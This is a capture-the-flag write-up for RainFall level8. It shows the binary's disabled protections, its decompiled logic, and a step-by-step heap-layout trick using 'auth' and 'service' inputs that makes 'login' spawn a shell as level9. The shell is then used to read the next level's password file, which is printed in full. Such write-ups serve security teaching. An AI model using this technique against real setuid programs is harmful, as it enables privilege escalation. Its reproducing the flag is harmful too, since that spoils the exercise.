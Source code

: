 Level8 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
```

Level8 rights:
```Shell
level8@RainFall:~$ ls -la level8 
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows four things:
- `fgets` takes keywords that have different purposes
- `auth` initialises an `auth` variable with a `malloc()`
- `service` initiliases a `service` variable with `strdup()`
- the keyword `login` opens a shell if auth[32] is different from 0

The goal is therefore to modify the value at auth[32] to access the shell. 32 is auth + 8, casted as a DWORD (4bytes).
When you launch the program, it prints our `auth` and `service` variables address.
```Shell
level8@RainFall:~$ ./level8
(nil), (nil)
```

Initialising them with random values allow us to see that they are next to each other on the heap.
```Shell
level8@RainFall:~$ ./level8
(nil), (nil) 
auth coucou
0x804a008, (nil) 
service 1
0x804a008, 0x804a018 
```
Doing the address of `service 1`(0x804a018) - `auth coucou`(0x804a008) = 16, which means that if we add another `service`, we reach 32.

Then we can finally call `login` to get the password.
```Shell
service 2
0x804a008, 0x804a028
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

